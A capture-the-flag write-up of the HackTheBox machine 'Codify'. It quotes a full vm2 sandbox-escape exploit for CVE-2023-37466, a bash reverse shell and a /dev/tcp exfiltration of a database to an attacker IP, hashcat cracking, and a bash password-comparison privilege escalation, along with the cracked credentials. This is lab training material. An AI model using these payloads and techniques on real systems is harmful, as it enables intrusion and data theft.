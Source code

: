 ```yaml
---
title: Codify
tags:
  - HackTheBox
  - Easy
  - Linux
  - Nodejs
  - vm2
  - Sandbox-Escaping
  - Brute-Forcing
  - pspy
  - Code_Review
date: 2025-02-17T00:00:00Z
---
```

![](Pasted%20image%2020250217110028.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.239 codify.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- codify.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http
|_http-title: Codify
3000/tcp open  ppp
```

So I checked its website:

![](Pasted%20image%2020250217110149.png)

As the website says: *"This website allows you to test your Node.js code in a sandbox environment. Enter your code in the editor and see the output in real-time."*, so I can test any code I want. 

Inspecting the `/About` endpoint I discovered a library called `vm2` being used:

![](Pasted%20image%2020250217111621.png)

The current version is [3.9.16](https://github.com/patriksimek/vm2/releases/tag/3.9.16)

## Weaponization

I searched for "*vm2 exploit*" and got [This exploit](https://www.exploit-db.com/exploits/51898):

```js
/*
# Exploit Title: vm2 Sandbox Escape vulnerability
# Date: 23/12/2023
# Exploit Author: Calil Khalil & Adriel Mc Roberts
# Vendor Homepage: https://github.com/patriksimek/vm2
# Software Link: https://github.com/patriksimek/vm2
# Version: vm2 <= 3.9.19
# Tested on: Ubuntu 22.04
# CVE : CVE-2023-37466
*/

const { VM } = require("vm2");
const vm = new VM();

const command = 'pwd'; // Change to the desired command

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}

try {
    const handler = {
        getPrototypeOf(target) {
            (function stack() {
                new Error().stack;
                stack();
            })();
        }
    };

    const proxiedErr = new Proxy({}, handler);

    throw proxiedErr;
} catch ({ constructor: c }) {
    const childProcess = c.constructor('return process')().mainModule.require('child_process');
    childProcess.execSync('${command}');
}
`;

console.log(vm.run(code));
```

## Exploitation

I executed the sript but changing the command to `id`:

![](Pasted%20image%2020250217112054.png)

> Got RCE, so time to get a shell :D

```shell
const command = 'bash -c "bash -i >& /dev/tcp/10.10.14.27/666 0>&1"';
```

> Got a shell :D

![](Pasted%20image%2020250217112314.png)

## Pivoting

I noticed a user called `joshua` with home directory.

I can read `/etc/passwd`:

```shell
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
```

I searched for `.db` like:

```shell
find / -type f -name "*.db*" 2>/dev/null

[redacted]
/var/www/contact/tickets.db
```

I'll send this db to my machine. As the machine doesn't have python installed, I'll try another way:

```shell
# In my machine start a nc listener to receive the file
nc -lnvp 888 > tickets.db

# Then in the victim's machine
cat /var/www/contact/tickets.db > /dev/tcp/10.10.14.27/888
```

I can now open it with SqliteBrowser:

![](Pasted%20image%2020250217113658.png)

So now I've got joshua's hash: `$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2` which seems to be in bcrypt format. So I'll use hashcat to crack it:

```shell
hashcat -m 3200 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt

[redacted]
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

> So I've got creds :D `joshua:spongebob1`

![](Pasted%20image%2020250217114044.png)

### User flag

![](Pasted%20image%2020250217114132.png)

## Privilege Escalation

If I check for sudo vulnerability:

```shell
sudo -l

[redacted]
(root) /opt/scripts/mysql-backup.sh
```

![](Pasted%20image%2020250217114319.png)

After inspecting the script I noticed that the password passed to mysql is not the same as we input, so if I could bypass the input I would be able to become root. 

- Check this blog about [Bash Pitfalls](https://mywiki.wooledge.org/BashPitfalls#A.5B_.24foo_.3D_.22bar.22_.5D)

I can use a snooping tool to monitor the processes like [pspy](https://github.com/DominicBreuker/pspy) for this.

I'll upload it to the machine and then use two different ssh sessions: one to execute the script and the other one to execute pspy:

```shell
# In my machine
python3 -m http.server 8090

# In codify.htb [ssh session1]
wget http://10.10.14.27:8090/pspy64s
chmod +x pspy64s
./pspy64s -i 1

# In codify.htb [ssh session2]
sudo /opt/scripts/mysql-backup.sh

# In codify.htb [ssh session1] Provide as password: *
```

- The `-i 1` option means updating the log each 1 second

![](Pasted%20image%2020250217115712.png)

![](Pasted%20image%2020250217115728.png)

We can see in cleartext the password: `root:kljh12k3jhaskjh12kjh3`
- Remember to eliminate the `p` after `-`, I was stuck 5 mins here xd

> I can now log in as root and read root flag :D

![](Pasted%20image%2020250217120546.png)
### Root flag

![](Pasted%20image%2020250217120625.png)

==Machine pwned!==

